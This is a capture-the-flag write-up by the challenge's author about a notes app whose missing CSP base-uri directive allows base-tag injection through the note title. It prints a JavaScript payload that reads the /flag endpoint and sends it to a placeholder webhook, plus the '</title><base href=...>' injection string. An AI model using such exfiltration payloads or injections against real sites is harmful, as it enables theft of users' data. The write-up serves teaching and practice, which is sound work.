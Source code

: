 # XSS Challenege writeup

So it was a simple XSS challenge where you could create notes and report it to the bot and the bot would visit it and the flag was in the /flag endpoint which only the bot was allowed to visit and when you will look into the source code or explore the website and see the CSP directives that are used in the website you would see that one very important CSP directive base-uri which controls which base URLs are allowed for a document is not used in the note viewing page which is a huge RED flag and also when you will see further you will se that there is script being loaded which when you will see in source code is doing nothing.


![image](https://github.com/user-attachments/assets/0a758fdb-00c7-4e7e-8451-5ea9a8d3e6f2)

So now you can think what you are supposed to do, You are supposed to change the base-url something where you are supposed to upload a js file in /static/min.js where you could put a js something like this 
```js
fetch('http://127.0.0.1:5000/flag')
  .then(response => response.text())
  .then(flag => {

    fetch(`https://your-webhook-site?flag=${encodeURIComponent(flag)}`));
```

But now one more step is left which is where would you put this base tag, there's one condition that the base tag should be put inside the head tag so when you will write a note and view it you would see that the title of the note that you write appears in the head although on the note you see you don't see the title you just see the note id 


![image](https://github.com/user-attachments/assets/498bc648-1da9-4b82-b690-751ec1217b51)


So you in the title of the note you could close the the title tag and put the base tag something like this 

`</title> <base href="your-url-where-you-have-uploaded-the-js/" > `

and boom the js you have uploaded will now be fetched and executed and then you could create a note and then go to the report endpoint and report that note with the url and you would get the flag in your webhook something like this

`https://your-webhook-server?flag=flag{fake_flag}`

I hope you had fun solving this challenge and this was the first challenge that I made so you could find it easy to solve but I guess the level of difficulty would probably increase as I create more challenges.
